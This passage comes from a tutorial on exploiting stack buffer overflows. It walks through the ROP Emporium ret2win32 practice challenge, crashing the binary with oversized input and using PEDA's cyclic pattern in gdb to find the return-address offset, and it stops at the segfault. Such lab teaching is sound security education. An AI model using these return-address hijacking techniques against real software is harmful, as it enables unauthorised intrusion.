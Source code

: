 Hopefully, now we can see how we can hijack command of a program's execution rather than just overwriting variables, with this technique.  If we can overwrite enough past our buffer, we can overwrite the saved return address.  Once a `ret` is called, the address we've overwritten will be jumped to.  So how do we use this?

Example 2 - ret2win
-----------------
We'll be using the first binary challenge on [ropemporium](https://ropemporium.com/challenge/ret2win.html), called ret2win for this.  For this we're going to be hijacking execution of the program.

When an unreachable address is jumped to for execution, the program will exit in a segmentation fault.  If we want to execute an arbitrary command, all we have to do is force a segmentation fault to prove that we've overwritten the saved return address.  So lets load up the binary and input some text.

```bash
root@kali:~/Downloads# python -c 'print "A"*200' | ./ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Segmentation fault
```

Boom!  We got a segmentation fault, but it doesn't give us much of a clue how many bytes we'll need to overwrite.  We can either modify the amount we overwrite byte by byte, or use a cyclic sequence to read off the location of EIP.  Metasploit has it's `pattern_create.rb` and [PEDA](https://github.com/longld/peda) has it's own `pattern create`.

We'll create a buffer of length 200, and see the value that `eip` segfaults on.

```gdb
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
Starting program: /root/Downloads/ret2win32 
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
```
